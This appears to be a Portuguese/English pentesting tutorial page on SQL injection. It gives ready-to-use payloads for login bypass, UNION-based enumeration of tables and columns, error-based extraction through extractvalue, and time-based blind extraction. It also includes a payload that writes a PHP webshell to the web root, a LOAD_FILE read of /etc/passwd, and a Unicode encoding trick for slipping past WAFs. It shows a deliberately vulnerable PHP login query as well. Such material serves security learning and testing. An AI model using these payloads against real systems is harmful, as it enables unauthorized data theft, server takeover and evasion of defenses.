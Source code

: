 # SQL Injection

O SQL injection, é uma das técnicas de vulnerabilidades web mais conhecida. Ela consiste em basicamente passar uma query SQL em um input que se o banco de dados não tiver um tratamento correto dessa entrada, pode acabar resultado em um vetor de ataque caso essa query seja maliciosa.

## Basic Bypass Authentication

Vamos supor que o backend trata a entrada de um login da seguinte forma abaixo.

```php
$user = $_POST['user'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE user = '$user' AND pass '$password'"; 
```

O problema é que a query que irá para o banco de dados não está sendo filtrada corretamente, passando os parâmetros exatamente como o usuário digita e isso pode ocasionar a vulnerabilidade.

Vamos então utilizar o payload mais básico para explorar essa falha. A ideia a seguir, é utilizar o campo do usuário para bypassar a consulta. Primeiro temos que fechar as aspas simples e utilizar uma condição de **ou** para que assim a query retorne **true** e por fim comentar o resto para que seja ignorado, com isso irá trazer os resultados no banco de dados. O payload final fica da seguinte forma: `' or 1=1 #` ou `' or 1=1 --`. (_o comentário # e -- varia de acordo com o banco de dados_.)

Com isso, no banco de dados vai retornar o primeiro usuário que a consulta buscar, autenticando assim na aplicação com este usuário.

```sql
SELECT * FROM users WHERE user = '' or 1=1 -- ' AND pass 'password123" 
```

## Error-based SQL Injection

Esse é um tipo de injeção que retorna um erro para o usuário. Para triggar este erro, podemos passar, por exemplo, uma aspas simples para ver o que a aplicação retorna (essa aspas simples irá fechar a consulta no parâmetro que for passado). Se for vulnerável, geralmente provavelmente irá retornar uma mensagem de erro do tipo `Search SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax;`.

Com isso, podemos utilizar o `union` do SQL para unir uma nova consulta, e passar um %23 que significa o caractere # encodado, já que estamos enviando essas informações pela url (irá comentar o resto da query que estiver no banco). Além do **"**#", poderia ser passado também um ponto e vírgula ou uma aspas simples, depende de como a aplicação foi feita.

```
' or 1=1 union select 1; #
```

<div data-full-width="false"><figure><img src="../.gitbook/assets/error-based-sqli-1.png" alt=""><figcaption></figcaption></figure></div>

Assim, conseguimos descobrir a quantidade de colunas que possui, podemos tentar ir aumentando até não retornar nenhum erro.

Nesse caso, podemos descobrir que a quantidade de colunas na tabela de produtos são no total 6. Podemos perceber também que é refletido os valores que inserimos sendo criado uma nova visualização na consulta.

<figure><img src="../.gitbook/assets/error-based-sqli-2.png" alt=""><figcaption></figcaption></figure>

A consulta final ficará assim, sendo completamente correta e com isso retorna as informações.

```sql
SELECT * FROM products WHERE name like '%' or 1=1 union select 1, 2, 3, 4, 5, 6; #%'
```

<figure><img src="../.gitbook/assets/error-based-sqli-3 (1).png" alt=""><figcaption></figcaption></figure>

Agora que conseguimos descobrir corretamente a quantidade de colunas e fazer a consulta funcionar como queríamos, podemos tirar vantagem disso para buscar informações do banco de dados, podemos usar funções do MySQL (banco de dados utilizado) como `user()`, `database()`, `version()` entre outras.

<figure><img src="../.gitbook/assets/error-based-sqli-4.png" alt=""><figcaption></figcaption></figure>

Podemos agora buscar na tabela `information_schema` pela tabela que descobrirmos anteriormente.

```sql
' union select 1, table_name, 3, 4, 5, 6 from information_schema.tables WHERE TABLE_SCHEMA="lab"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-5.png" alt=""><figcaption></figcaption></figure>

Uma vez que descobrimos o nome das tabelas, podemos ver que existe a tabela `users`. Com isso, nós conseguimos descobrir as colunas:

```sql
' union select 1, column_name, 3, 4, 5, 6 from information_schema.columns where TABLE_SCHEMA="lab" and TABLE_NAME="users"; #
```

<figure><img src="../.gitbook/assets/error-based-sqli-6.png" alt=""><figcaption></figcaption></figure>

Agora que já sabemos quais os nome das colunas, podemos fazer a busca diretamente na tabela de `users`.

<figure><img src="../.gitbook/assets/error-based-sqli-7.png" alt=""><figcaption></figcaption></figure>

Pronto! Dessa forma que conseguimos explorar o Error-based SQL Injection.

### MySQL Error-Based SQL Injection Via ExtractValue Function

This is a specific attack technique that uses MySQL’s `extractvalue` function to access sensitive data from the database. ExtractValue is a MySQL function commonly used to extract data from XML documents. It takes two arguments: an XML document and an XPath expression. The function returns the value specified by the XPath query within the XML document.

Attackers can exploit this vulnerability by crafting malicious XPath expressions that, when processed by the `extractvalue` function, trigger an error and leak information about the database. Let's take a look how we can extract the database name:

```
extractvalue("something",concat(0x0a, database())); #
```

This payload injects the `database()` system variable into the XPath expression, causing MySQL to generate an error that reveals the database name.

<figure><img src="../.gitbook/assets/error-based-sqli-8.png" alt=""><figcaption></figcaption></figure>

We can also extract the table name from `information_schema`:

```
' and extractvalue("something",concat(0x0a, (select table_name from information_schema.tables WHERE TABLE_SCHEMA='lab' limit 0,1))); #
```

<figure><img src="../.gitbook/assets/error-based-sqli-9.png" alt=""><figcaption></figcaption></figure>

We can take a look at the database to see what the query it will look like:

<figure><img src="../.gitbook/assets/error-based-sqli-10.png" alt=""><figcaption></figcaption></figure>
## SQL Injection Time Based Blind

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. To exploit it we can use `substring` function to test each character and check it that query returns true (it will wait for 3 seconds), if true, we can confirm the first character and we will do with the next one and so on.

 ```
' or 1=1 union select 1, 2, if(substring((select database()), 1, 1)="l", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 2, 1)="a", sleep(3), NULL), 4, 5, 6; #

' or 1=1 union select 1, 2, if(substring((select database()), 3, 1)="b", sleep(3), NULL), 4, 5, 6; #
```

## Webshell

Quando encontramos uma falha de SQL Injection, também conseguimos gravar uma webshell dentro do servidor e ganhar um acesso.

```
' or 1=1 union select 1, 2, "<?php system($_GET['cmd']); ?>", 4, 5, 6 into outfile "/var/www/html/cmd.php"; #
```

## Reading file

```
' or 1=1 union select 1, 2, LOAD_FILE('/etc/passwd'), 4, 5, 6; #
```


## Bypass methods

### Unicode

Use Unicode to encode the payload (if the application is using JSON to encode data). The following example shows how it works: 

```
<?php

$data = ["name" => "João", "age" => 20];

print_r(json_encode($data));
```

The response will be:

```
$ php json.php

{"name":"Jo\u00e3o","age":20}
```

We can encode our payload, for example, `' union select 1,2, database(), 4, 5, 6; #` to Unicode.

```
\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0032\u002c\u0020\u0064\u0061\u0074\u0061\u0062\u0061\u0073\u0065\u0028\u0029\u002c\u0020\u0034\u002c\u0020\u0035\u002c\u0020\u0036\u003b\u0020\u0023
```

Some WAFs may block when we use `union select` or something similar, so by using Unicode we can bypass that filter.
### User-Agent

When we use a tool like sqlmap, by default it uses its own user-agent. It's important to change this because there are WAF/IPS that block user-agent used by these tools.